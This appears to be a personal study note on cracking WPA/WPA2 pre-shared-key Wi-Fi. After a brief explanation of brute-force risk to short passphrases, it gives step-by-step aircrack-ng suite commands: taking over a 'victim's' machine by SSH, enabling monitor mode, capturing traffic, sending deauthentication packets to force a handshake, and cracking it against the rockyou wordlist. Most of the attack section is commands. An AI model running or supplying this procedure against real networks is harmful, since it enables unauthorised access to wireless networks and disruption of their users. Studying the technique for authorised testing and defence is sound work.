 WiFi protected access.
WPA dinamically generate a new key for each packet.
WPA and WPA2 are frequently deployed with a pre-shared key, PSK, to secure communications between the access point and the wireless clients.
- The PSK should be a random pass phrase of at least 13 characters in length, if not, it is possible to determine the PSK using a Brute-Force Attack, by comparing the PSK to a known dictionary.

---
Start a WPA attack:
- Connect to the victim's machine by ssh
- List the available wireless interfaces installed on the victim's pc:
````
iwconfig
````
- Create a monitor interface using the airmon-ng command:
````
service network-manager stop

airmon-ng start wlanO

#check monitor mode is enabled
````
- List all the available access points in its range and find your target:
````
airodump-ng monO

#when you find your target press Ctrl+C to stop it
````
- Capture the traffic between the target access point and the client:
````
airodump-ng --bssid victim's_mac_address -c channel --showack -w wpa_log monO
````
(DO NOT CLOSE THIS WINDOW)
- Open another terminal to launch a de-authentication attack, which will force a user to re-authenticate to the target access point and re-exchange the WPA key:
````
aireplay-ng -0 20 -a  victim's_mac_address -c LOOK_DOWN_MAC mon0

#20 means that we will sen 20 de-authentication packets 
````
- Pick one and put it before:
![[pickone.png]]
- Let's make sure that we captured the 4 way handshake:
![[4 way handshake.png]]
- Now stop this terminal using Ctrl+C
- Now, we need to crack some passwords
````
aircrack-ng wpa_log-01.cap -w /usr/share/wordlists/rockyou.txt
````
![[passwords.png]]
- We can also use **hashcat** or other tools to crack the passwords